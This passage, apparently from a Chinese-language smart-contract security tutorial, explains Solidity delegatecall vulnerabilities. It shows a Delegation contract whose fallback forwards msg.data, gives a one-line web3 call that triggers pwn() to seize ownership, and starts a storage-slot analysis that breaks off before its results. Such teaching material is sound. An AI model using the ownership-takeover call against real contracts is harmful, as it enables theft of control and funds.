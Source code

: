 ```solidity

    function Delegation(address _delegateAddress) public {
        delegate = Delegate(_delegateAddress);
        owner = msg.sender;
    }

    function() public {
        if(delegate.delegatecall(msg.data)) {
            this;
        }
    }
}
```

對於這個例子，攻擊者如何成爲 owner 呢？

其實我們只需調用 Delegation 的假 `pwn()` 即可，這樣就會觸發 Delegation 的 `fallback`，這樣 `pwn` 的函數簽名哈希就會放在 `msg.data[0:4]` 了，這樣就會只需 delegate 的 `pwn()` 把 owner 變成自己，如下所示即可（這就是因爲 `msg.data` 可控導致的）

```
contract.sendTransaction({data: web3.sha3("pwn()").slice(0,10)})
```

* 若 `msg.data` 和 `address` 都可控，則可調用任意 `address` 處的任意函數

同理，只不過額外加了 `address` 是可控的這個條件，不再作分析

#### 原因分析

```solidity
pragma solidity ^0.4.23;

contract A {
    address public c;
    address public b;
    
    function test() public returns (address a) {
        a = address(this);
        b = a;
    }
}

contract B {
    address public b;
    address public c;
    
    function withdelegatecall(address testaddress) public {
        testaddress.delegatecall(bytes4(keccak256("test()")));
    }
}
```

來看上面這個例子，假設合約 A 部署後地址爲 address_a，合約 B 部署後地址爲 address_b，使用 外部賬戶 C 調用 withdelegatecall(address_a)，address_a 和 address_b 中的 b、c 變量分別是多少？結果如下
